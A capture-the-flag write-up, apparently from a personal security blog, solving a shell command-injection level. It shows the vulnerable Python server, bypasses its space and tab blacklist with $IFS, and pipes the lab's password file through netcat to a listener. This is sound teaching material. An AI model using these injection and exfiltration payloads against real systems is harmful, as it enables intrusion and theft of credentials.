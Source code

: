 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 3"
categories: ctf binary
---
```


![Logo](/assets/images/belts-brown.png)


In this post we'll continue with the third level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**. We will be dealing with another classic vulnerability - _shell command injection_. I really enjoyed this level and I believe it is quite clever.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)
* [Binary Master: Lieutenant - Level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html)
* [Binary Master: Lieutenant - Level 2](https://livz.github.io/2016/02/23/binary-master-lieutenant-2.html)

Before we begin, here's a list of resources containing different tricks to bypass filters meant to prevent command injection:
* [OS Command execution](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution)
* [Bypassing bash command injections restrictions](http://thomasforrer.blogspot.co.uk/2014/07/bypassing-bash-command-injections.html)
* [Command Injection Without Spaces](http://www.betterhacker.com/2016/10/command-injection-without-spaces.html)
* [Bash Brace Expansion Cleverness](https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)
 
## 0 - Discovery
```python
#!/usr/bin/env python

import sys
import SocketServer
import os
import string
import threading

HOST = '127.0.0.1'
PORT = 9999
PASSWORD = "iknowthepassword"

class SysTCPHandler(SocketServer.BaseRequestHandler):

    def handle(self):
        self.request.sendall('Password: ')
        
        if self.request.recv(1024).strip() == PASSWORD:                    [1]
            self.request.sendall('$ ')
            cmd = self.request.recv(1024)
    
            while len(cmd) > 0:
                os.system(self.filter(cmd))
                self.request.sendall('> output sent to console\n')
                self.request.sendall('$ ')
                cmd = self.request.recv(1024)

    def filter(self, cmd):                                                 [2]
        # We only want people to pass arguments
        bad_chars = " \t<"

        return cmd.translate(None, bad_chars);

if __name__ == '__main__':
    # We don't need this anymore since it's provided by the upstart service
    #os.chroot('/chroot')
    
    try:
        os.setgid(1005)
        os.setuid(1005)
    except OSError, e:
        sys.exit(-1)
    
    server = SocketServer.ForkingTCPServer((HOST, PORT), SysTCPHandler)
    server.serve_forever()
```

Let's spend a few moments to understand how this program works. Notice that upon starting, the program changes its group and user ids to level4 (uid=1005, gid=1005):

```python
    try:
        os.setgid(1005)
        os.setuid(1005)
    except OSError, e:
        sys.exit(-1)
```

There is also an indication that the application will be chroot-ed to **/chroot**. If we inspect this folder, we can see it's owned by root, with no write permissions for other users. That means we'll have a problem - **the python script will not be able to write anything there**:

```
drwxr-xr-x  8 root root  4096 May 12 12:42 chroot
```

Inside this folder we have an interesting file, for which the python script **will have access** - _password.txt_:

```
-rw-r-----  1 root level4   18 May 12 12:36 password.txt
```

After dealing with permissions, the script starts a TCP server listening on port 9999. After checking a hardcoded password at **[1]**, the script will read a command from the user, filter it and then execute it. Filtering is done at **[2]**, based on a blacklist of forbidden characters, including _Space_, _Tab_ and _<_.

## 1 - Vulnerability
 
Although having this blacklist might sound like a good idea (definitely better than nothing), in practice most of the times it is a bad idea to filter known-bad input from the user. Attackers can be very creative.

## 2 - Exploit
So let's see what's the problem. We have two issues:
* First one basically reduces to executing commands without whitespaces. 
* Secondly, we need a way to see the responses.

### Executing commands
The python script executes commands using the following syntax:

```python
os.system(filtered_cnd)
```

According to the [documentation](https://docs.python.org/2/library/os.html#os.system), _os.system_ is implemented by calling the Standard C function **_system()_**. Going further, the [man page](http://man7.org/linux/man-pages/man3/system.3.html) for _system_ function states:

```
       The system() library function uses fork(2) to create a child process
       that executes the shell command specified in command using execl(3)
       as follows:

           execl("/bin/sh", "sh", "-c", command, (char *) 0);
```           

The resources refenreced in the beginning suggest that the **$IFS** environment variable might be a good place to start. After playing with different combinations locally, I've noticed that it works fine, but whenever $IFS is followd by a number or letter, they together get interpreted as a single variable. My workaround was to define more variables when needed. 

So let's see how we can introduce a simple delay, which signifies that the command injection was successful:

```bash
$ python -c 'import os; os.system("T=10&&sleep$IFS$T")'
```

Pasting the same command into the shell of level4 produces a 10-seconds delay - it worked!


### Getting command results

Since there is no possibility to write anything on the disk and also we cannot view the output of our commands, we need to think of another way. Let's be creative. Since this level is a lot about networking, I'll use the Swiss Army Knife **nc** utility to forward any results to me. I'll establish a listener on a port greater than 1024 then trick the filter to accept my command:

```bash
(on a terminal)
$  nc -lvvp 2000

(in the level4 console)
$ MSG=hello&&IP=0&&PORT=2000&&echo$IFS$MSG|nc$IFS-nvv$IFS$IP$IFS$PORT
```

Strangely, however, nothing happens. After some thinking, I realised that the _nc_ program inside the chroot environment is just a symbolic link. Fortunately, **nc.openbsd** is also present in /chroot/bin:

```
$ ls -alh /chroot/bin/nc
lrwxrwxrwx 1 root root 20 May 12 12:36 /chroot/bin/nc -> /etc/alternatives/nc
$ ls -alh /chroot/etc/alternatives/nc
ls: cannot access /chroot/etc/alternatives/nc: No such file or directory
$ ls -alh /chroot/bin/nc.openbsd 
-rwxr-xr-x 1 root root 31K May 12 12:36 /chroot/bin/nc.openbsd
```

Let's see if we can get a simple message back:
![hello](/assets/images/bm8-0.png)

![borat](/assets/images/bm8-1.png)

## 3 - Profit

We can now read the password stored in password.txt, in the root of the chroot environment:

```bash
(in the level4 console)
$ IP=0&&PORT=2000&&cat$IFS/password.txt|nc.openbsd$IFS-nvv$IFS$IP$IFS$PORT

(on the listener)
$ nc -lvvp 2000
Listening on [0.0.0.0] (family 0, port 2000)
Connection from [127.0.0.1] port 2000 [tcp/cisco-sccp] accepted (family 2, sport 51920)
only*******s
```

This concludes the level. in the [next level](https://livz.github.io/2016/03/10/binary-master-lieutenant-4.html) we'll analyse another interestting vulnerability - [Time of check to time of use -TOCTOU](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use).

